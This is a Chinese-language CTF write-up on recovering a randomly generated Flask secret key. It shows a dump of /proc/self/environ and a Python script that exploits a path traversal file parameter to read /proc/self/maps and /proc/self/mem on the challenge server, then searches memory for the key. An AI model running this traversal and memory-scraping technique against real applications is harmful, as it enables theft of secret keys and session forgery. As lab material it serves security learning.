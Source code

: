 这道题的程序中，密钥是通过使用 `uuid.uuid4()` 函数生成了一个随机的 UUID（Universally Unique Identifier），然后通过 `replace("-", "")` 去掉了 UUID 中的破折号，最后再添加了一个固定的字符串 `*abcdefgh`。这样生成的字符串就作为了 Flask 应用程序的密钥。这种方法可以确保每次启动应用程序时都会生成一个不同的密钥，提高了安全性。因为 UUID 是按照特定算法生成的全局唯一标识符，所以可以保证生成的密钥是唯一的。

所以就要想办法找到uuid或者密钥

联想到刚才查到的Linux文件路径，proc/self/environ中可能存在密钥，先查看再说

![image-20240319143832007](D:\文档\ctf\assets\image-20240319143832007.png)

内容如下：

```
HOSTNAME=33f63d52abb8
PYTHON_PIP_VERSION=21.2.4
SHLVL=1
HOME=/root
OLDPWD=/
GPG_KEY=0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D
PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/3cb8888cc2869620f57d5d2da64da38f516078c7/public/get-pip.py
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin
LANG=C.UTF-8
PYTHON_VERSION=3.7.12
PYTHON_SETUPTOOLS_VERSION=57.5.0
PWD=/app
PYTHON_GET_PIP_SHA256=c518250e91a70d7b20cceb15272209a4ded2a0c263ae5776f129e0d9b5674309

```

没有发现

由于这个密钥是每次程序运行随机生成的，所以只有在内存中可以找到

/proc/[pid]/maps  可以查看进程的内存映射，当前进程[pid]换成self即可

![image-20240319154404336](D:\文档\ctf\assets\image-20240319154404336.png)

使用脚本从内存中寻找secret_key：

```python
import requests
import re

url='http://61.147.171.105:63081/'
s_key=''
map_list=requests.get(url+'info?file=../../proc/self/maps')

map_list=map_list.text.split('\\n') #根据字符串"\n"进行分割
for i in map_list:
    map_addr=re.match(r"([a-z0-9]+)-([a-z0-9]+) rw",i) #正则匹配rw可读可写内存区域，（）起到分组的作用
    if map_addr:
        start=int(map_addr.group(1),16)
        end=int(map_addr.group(2),16)
        print("found rw addr:",start,"-",end)

        res=requests.get(f"{url}info?file=../../proc/self/mem&start={start}&end={end}")
        if "*abcdefgh" in res.text:
            s_key_=re.findall("[a-z0-9]{32}\*abcdefgh",res.text)
            if s_key_:
                print("find secret_key:",s_key_[0])
                s_key=s_key_[0]
                break
```
